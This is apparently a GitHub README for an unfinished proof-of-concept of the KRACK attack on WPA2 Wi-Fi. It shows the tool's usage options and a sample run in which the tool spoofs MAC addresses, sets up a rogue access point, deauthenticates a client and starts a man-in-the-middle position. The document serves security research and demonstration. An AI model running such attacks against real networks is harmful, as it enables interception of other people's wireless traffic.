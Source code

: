# [WORK IN PROGESS] PoC Krack (Key Reinstallation AttaCKs)

Proof of concept for Krack attack using channel-based MitM

## Theory

French article on [hackndo](http://beta.hackndo.com/krack/)

## Environment

WPA2 with CCMP

## Usage

```
# ./Krack.py -h
usage: Krack.py [-h] [-d] -a ACCESS_POINT -i IFACE_AP -b CLIENT -j
                IFACE_CLIENT -c CHANNEL

optional arguments:
  -h, --help            show this help message and exit
  -d, --direct          Skip channel and monitor settings
  -a ACCESS_POINT, --access_point ACCESS_POINT
                        Enter the SSID of the specific access point to target
  -i IFACE_AP, --iface_ap IFACE_AP
                        Enter the SSID of the specific access point to target
  -b CLIENT, --client CLIENT
                        Enter the MAC address of the specific client to target
  -j IFACE_CLIENT, --iface_client IFACE_CLIENT
                        Enter the SSID of the specific access point to target
  -c CHANNEL, --channel CHANNEL
                        Choose channel on which the targeted access point is
                        listening on

# ./Krack.py -a hackndo_ssid_test -i wlan1 -b "ab:cd:0a:0b:11:22" -j wlan0 -c 11
[*] Turning off both interfaces
[*] Setting interface wlan1 on channel 11
[*] Interface wlan1 is on channel 11
[*] Setting interface wlan0 on channel 4
[*] Interface wlan0 is on channel 4
[*] Starting monitor mode for wlan1
[*] Interface wlan1 is now in monitor mode
[*] Starting monitor mode for wlan0
[*] Interface wlan0 is now in monitor mode
[*] Turning on both interfaces
[*] Trying to find hackndo_ssid_test MAC address
[*] MAC Found ! 0e:cc:46:8a:b1:09
[*] Jammer initialized correctly
[*] Sniffing an AP Beacon...
[*] AP Beacon saved!
[*] Sniffing an AP Probe response...
[*] AP Probe response saved!
[*] Updating wlan1 MAC address to ab:cd:0a:0b:11:22 (Client MAC)
[*] wlan1 MAC address update successful
[*] Updating wlan0 MAC address to 0e:cc:46:8a:b1:09 (Real AP MAC)
[*] wlan0 MAC address update successful
[*] Rogue AP started. Sending beacons...
[*] Running main loop
[*] Starting deauth on AP 0e:cc:46:8a:b1:09 (hackndo_ssid_test) and client ab:cd:0a:0b:11:22...
[*] Probe request to our AP
[*] Client authenticated to our AP!
[*] MitM attack has started
[*] Deauth stopped
```

## TODO

[X] Use CSA (Channel Switch Announcement) to make client switch channel after deauth (See issue [#1](https://github.com/Hackndo/krack-poc/issues/1))
[ ] Save data sent by client
[ ] Break cryptography with known plain text when counter is reinitialized
